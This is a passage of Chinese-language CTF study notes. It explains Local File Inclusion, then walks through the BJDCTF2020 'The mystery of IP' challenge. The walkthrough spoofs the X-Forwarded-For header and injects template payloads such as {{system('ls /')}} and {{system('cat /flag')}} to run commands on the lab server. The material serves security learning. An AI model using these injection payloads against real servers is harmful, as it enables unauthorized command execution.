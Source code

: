 ### 4 

<a href=https://blog.csdn.net/woshilnp/article/details/117266628>php://filter以及死亡绕过</a>
查看solution还提到了<a href=https://www.invicti.com/learn/local-file-inclusion-lfi/>LFI.</a>。
简单了解一下LFI
>Local File Inclusion，允许恶意黑客访问、查看和/或包含位于文档根文件夹中的 Web 服务器文件系统中的文件。

举例说明：如果应用程序被设计为根据 URL 参数显示任意图像，但攻击者能够使用此功能显示应用程序源代码，则该应用程序具有 LFI 漏洞。注意，如果攻击者可以包含来自远程位置的恶意文件，那么我们说的就是远程文件包含(RFI)漏洞。

#### LFI可能出现场景：
- 1.如果应用程序显示任意图像，则可以使用它来显示敏感信息，如源代码或配置文件。

- 2.如果应用程序允许您下载任意文件(如 PDF 文件) ，则可以使用它来下载敏感信息(如源代码或配置文件)。

- 3.如果应用程序包含任意的文件内容作为 HTML 页面的一部分，它可以用来利用跨网站脚本漏洞。

- 4.如果应用程序动态地包含任意源代码文件，并且攻击者能够上传或更改文件，则可以使用该应用程序升级到远程代码执行。

-------
-------


## [BJDCTF2020]The mystery of IP

>怎么也逃不出~burp suite的世界~

### 1 
点来点去没什么头绪，php文件都是摆在明面上的，把页面源代码几个看不懂的都翻译了翻译，发现一个是适配低版本IE浏览器一个是前端实现浮动字效果……心寒……

burpsuite抓包，wp说`IP`->`X-Forwarded-For`（乍一听怪扯的……不过在读过X-Forwarded-For文档里面反复提及的警告后就理解了一点了。）。
所以浅学一下<a href=https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For>X-Forwarded-For</a>。

### 2 
接下来就是添加HTTP请求头

```HTTP
GET /flag.php HTTP/1.1
Host: node4.buuoj.cn:29729
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
X-Forwarded-For:1//是的我添；
Connection: close
```
forward之后界面从`Your IP Is: 10.xx`变成了`Your IP: Is 1`。
injec成功！！
```HTTP
X-Forwarded-For: {{system('ls /')}}
```
进而查找到了**flag**所在位置，接着
```HTTP
X-Forwarded-For: {{system('cat /flag')}}
```

